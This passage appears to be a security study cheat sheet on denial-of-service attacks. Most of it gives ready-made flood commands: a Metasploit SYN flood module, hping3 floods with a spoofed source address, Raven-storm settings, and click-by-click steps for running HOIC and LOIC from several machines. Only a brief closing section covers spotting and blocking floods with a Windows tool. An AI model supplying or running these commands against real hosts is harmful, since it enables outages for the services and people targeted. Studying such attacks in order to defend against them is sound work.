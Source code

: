 - Metasploit
```bash
auxiliary/dos/tcp/synflood
```

- hping3
```bash
hping3 -S IP1 -a IP2 -p port --flood
```
- Raven-storm (Linux)
```bash
rst
l4
ip IP
port PORT
threads numberThreads
run
```

## DDoS Attack
- HOIC - High Orbit Ion Cannon (Windows)
```bash
- Click the + button
    * Type the target URL http://IP
- Select GenericBoost.hoic and click add
- Set the threads value to 20
- Do that on more machines and click on "fire teh lazer"
```

- LOIC - Low Orbit Ion Cannon (Windows)
```bash
Select the IP and click on lock on
Select UDP, the theads to 10 and the power bar to the middle
Do that on more machines and click on IMMA CHARGIN MAH LAZER
```

## PoD (Ping of Death)

- hping3
```bash
hping3 -d dataSize -S -p port --flood IPtarget
hping3 -2 -p port --flood IPtarget
    # -2 specifies the UDP mode
```

## Detect and Protect Against DDoS Attacks

- Guardian (Windows)
    - You can see detail view, packets sent and received from each IP and you can block any of them.
    - Launch Anti DDoS Guardian
    - In the bottom-right cornert of Desktop, click on show hidden icons
    - If there are huge number of packets coming from the same host machines, its a DDoS attack
    - You can double-click on any of the sessions and you can block it, clear, allow IP, and more
